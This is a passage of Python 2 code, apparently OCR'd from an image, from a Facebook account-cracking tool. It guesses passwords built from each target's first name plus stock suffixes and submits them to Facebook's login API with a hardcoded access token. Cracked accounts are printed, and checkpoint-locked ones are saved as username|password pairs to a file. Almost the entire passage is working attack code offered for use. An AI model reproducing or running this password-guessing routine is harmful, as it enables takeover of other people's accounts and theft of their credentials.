 					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name']+'Ali123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '987654'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
